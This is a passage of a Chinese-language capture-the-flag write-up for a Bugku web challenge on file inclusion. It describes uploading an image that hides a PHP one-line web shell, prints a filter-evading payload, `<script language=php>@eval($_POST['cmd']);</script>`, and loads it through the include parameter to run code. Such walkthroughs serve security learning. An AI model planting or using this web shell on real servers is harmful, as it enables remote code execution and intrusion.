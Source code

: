   先用老方法抓包改内容改后缀,但是页面提示只能上传规定的后缀文件，测试了几种后缀都不行，判断应该是一个白名单限制。

  ![文件包含2](../../imgs/Bugku/Web/gnome-shell-screenshot-YZS84Z.png)

  不过没关系，因为是文件包含，所以包含了含有一句话木马的图片也是可以执行(网上好多方法是改后缀名成`a.php;.jpg`,明显是蠢得不知道问题所在乱说一气)。我们按照原来的图片格式上传。

  ![文件包含2](../../imgs/Bugku/Web/gnome-shell-screenshot-TIVO5Z.png)

  先用文件包含的方式访问一下这个图片地址`http://123.206.31.85:49166/index.php?file=upload/201907230226053601.png`。如果我们的一句话木马成功了是不会有内容的，但是我们看到一些关键词被过滤了。

  ![文件包含2](../../imgs/Bugku/Web/gnome-shell-screenshot-AGLG5Z.png)

  这时候问题就变为如何绕过过滤，然后发现可以把一句话木马修改成`<script language=php>@eval($_POST['cmd']);</script>`再次上传

  ![文件包含2](../../imgs/Bugku/Web/gnome-shell-screenshot-ULKH5Z.png)

  直接访问这个页面，没有任何内容显示，估计成功。于是发包phpinfo();尝试(不喜欢用菜刀)，成功!

  ![文件包含2](../../imgs/Bugku/Web/gnome-shell-screenshot-DE2D5Z.png)
